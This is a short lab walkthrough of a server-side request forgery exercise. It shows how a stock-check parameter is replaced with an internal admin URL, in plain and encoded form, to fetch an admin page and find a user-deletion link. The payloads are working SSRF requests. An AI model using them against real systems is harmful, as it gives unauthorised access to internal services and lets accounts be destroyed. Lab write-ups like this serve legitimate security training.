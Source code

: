 1. *Capture the stock-check request*  
   - Intercept the request in Burp Proxy / Repeater.  
   - Example body:stockApi=http://stock.example.net:8080/product/stock/check?productId=1
2. *Confirm encoding*  
- If captured value is percent-encoded (%3A, %2F) use encoded payloads; otherwise use plain.

3. *Recon: fetch internal admin page*  
- Replace stockApi with the internal admin page:
  - Plain: stockApi=http://192.168.0.68/admin
  - Encoded: stockApi=http%3A%2F%2F192.168.0.68%2Fadmin
- Send the request and inspect the returned HTML (Raw / Elements).

![SSRF — fetched internal admin page via stockApi](../images/ssrf-lab2-local-admin.png)  
(Screenshot 1: server fetched internal admin HTML after stockApi was set to the admin URL.)

4. *Inspect returned HTML / Elements*  
- Search for delete, username=, action=, hidden tokens, JS-generated links.  
- Copy the actionable URL (example):http://192.168.0.68:8080/admin/delete?username=carlos
![SSRF — discovered delete link in returned HTML](../images/ssrf-lab2-found-delete-link.png)  
